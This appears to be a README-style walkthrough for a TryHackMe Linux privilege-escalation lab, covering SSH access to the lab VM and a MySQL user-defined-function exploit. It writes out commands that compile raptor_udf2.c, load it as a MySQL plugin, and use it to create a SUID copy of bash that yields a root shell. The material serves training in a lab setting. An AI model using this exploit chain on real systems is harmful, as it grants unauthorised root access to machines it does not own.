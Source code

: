 # Linux PrivEsc TryHackMe
# Task 1 : Deploy the Vulnerable Debian VM 
connect to ssh using 
```
ssh user@IP 
```
or use this in case of any errors
```
ssh user@IP -oHostKeyAlgorithms=+ssh-rsa
```
then use `id` command to get the result

# Task 2 : Service Exploits

Change into the /home/user/tools/mysql-udf directory:
```
cd /home/user/tools/mysql-udf
```
Compile the raptor_udf2.c exploit code using the following commands:
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Connect to the MySQL service as the root user with a blank password:
```
mysql -u root
```
Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:
```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!
```
rm /tmp/rootbash
exit
```
